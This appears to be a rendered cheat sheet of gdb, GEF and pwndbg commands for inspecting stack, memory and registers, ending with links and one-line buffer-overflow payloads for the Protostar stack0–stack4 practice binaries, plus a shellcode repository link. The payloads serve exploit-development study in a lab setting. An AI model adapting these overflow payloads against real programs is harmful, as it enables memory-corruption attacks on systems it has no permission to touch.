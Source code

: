 gef> dereference <register/address>
gef> dereference <register/address> [#]
								         ^optional: number lines of memory

See whole stack (may contain elements outside of the stack)
pwndbg> telescope $rsp $rbp-$rsp
gef>  dereference $rsp $rbp-$rsp

[Examples]:
pwndbg> telescope $rsp
pwndbg> telescope 0x7fffffffde28

gef> dereference $rsp
gef> dereference 0x7fffffffde28

________________________________________________________________________
________________________________________________________________________



## See Hex

	gef> xinfo <address>  ; GEF & PWNDBG; gives info about that part of memory

	HEX
	gdb> x/10x <address>  ; see top 10 hex from that address

	gdb> x10s  <address>  ; see top 10 strings from that address
	gdb> x10i  <address>  ; see top 10 instructions from that address
	gdb> x/10u <address>  ; see top 10 usigned integers from that address
	gdb> x/10c <address>  ; see top 10 characters from that address


	HEXDUMP
	pwndbg/gef> hexdump [register/address]

________________________________________________________________________
________________________________________________________________________



## Register information
	gdb> info registers
	gef> registers			;GEF SPECIFIC (is similar to the summary at every step) !!!!!!!!!!!!
	pwndbg> reg    			;PWNDBG SPECFIFIC                                       !!!!!!!!!!!!

   See content of register
	gdb> x/s $r3			; see string in r3 register


________________________________________________________________________
________________________________________________________________________



## other userful commands


[Pwndgb]: https://github.com/pwndbg/pwndbg
[GEF]: https://github.com/hugsy/gef
[My gdbinit]: $ cat ~/.gdbinit
[Reference Stack 0-5]: https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
[Reference Stack6]: https://medium.com/bugbountywriteup/expdev-exploit-exercise-protostar-stack-6-ef75472ec7c6
[Simple]: python -c "print 'A' * 77" | ./stack0
[Detailed]: Step-by-Step
[Simple]:  ./stack1 $(python -c "print 'A' * 76 + '\x64\x63\x62\x61'")
[Simple]: GREENIE=$(python -c "print 'A' * 68 + '\x0a\x0d\x0a\x0d'") ./stack2
[Simple]: Step-by-Step
[Detailed]: Step-by-Step
[Simple]: python -c "print 'A' * 72 + '\x37\x05\x40\x00\x00\x00'" | ./stack4
[Detailed]: Step-by-Step
[Shellcode]: http://shell-storm.org/shellcode/
[Detailed]: Step-by-Step